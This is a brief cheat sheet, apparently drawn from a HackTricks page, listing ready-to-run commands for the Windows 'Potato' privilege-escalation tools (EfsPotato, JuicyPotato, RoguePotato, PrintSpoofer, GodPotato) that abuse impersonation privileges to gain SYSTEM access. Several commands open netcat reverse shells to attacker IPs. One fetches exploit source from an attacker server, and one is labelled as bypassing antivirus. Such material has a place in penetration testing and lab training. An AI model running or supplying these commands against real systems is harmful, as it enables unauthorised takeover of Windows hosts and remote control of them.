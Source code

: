 https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/roguepotato-and-printspoofer

> **JuicyPotato doesn't work** on Windows Server 2019 and Windows 10 build 1809 onwards. However, [**PrintSpoofer**](https://github.com/itm4n/PrintSpoofer)**,** [**RoguePotato**](https://github.com/antonioCoco/RoguePotato)**,** [**SharpEfsPotato**](https://github.com/bugch3ck/SharpEfsPotato)**,** [**GodPotato**](https://github.com/BeichenDream/GodPotato) can be used to **leverage the same privileges and gain** `**NT AUTHORITY\SYSTEM**` level access. This [blog post](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/) goes in-depth on the `PrintSpoofer` tool, which can be used to abuse impersonation privileges on Windows 10 and Server 2019 hosts where JuicyPotato no longer works.

### SharpEfsPotato
```
SharpEfsPotato.exe -p C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe -a "whoami | Set-Content C:\temp\w.log"
```
### EfsPotato
https://github.com/zcgonvh/EfsPotato
```
Invoke-WebRequest -Uri http://10.10.14.165:8000/EfsPotato.cs -OutFile EfsPotato.cs

# Bypass AV
C:\Windows\Microsoft.Net\Framework\v4.0.30319\csc.exe EfsPotato.cs -nowarn:1691,618

./EfsPotato.exe '.\nc64.exe 10.10.14.165 5555 -e cmd'
```
### JuicyPotato
JuicyPotato doesn't work on Windows Server 2019 and Windows 10 build 1809 onwards. 

```powershell
JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *
```

However, [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) and [RoguePotato](https://github.com/antonioCoco/RoguePotato) can be used to leverage the same privileges and gain `NT AUTHORITY\SYSTEM` level access.

https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/
### RoguePotato
```powershell
RoguePotato.exe -r <AttackerIP> -e "shell.exe" -l 9999
```
### PrintSpoofer
```powershell
.\PrintSpoofer64.exe -c "C:\Users\Public\Documents\nc64.exe 10.10.14.165 5555 -e cmd"
```
### GodPotato
```powershell
GodPotato.exe -cmd "cmd /c whoami"
GodPotato.exe -cmd "shell.exe"
```
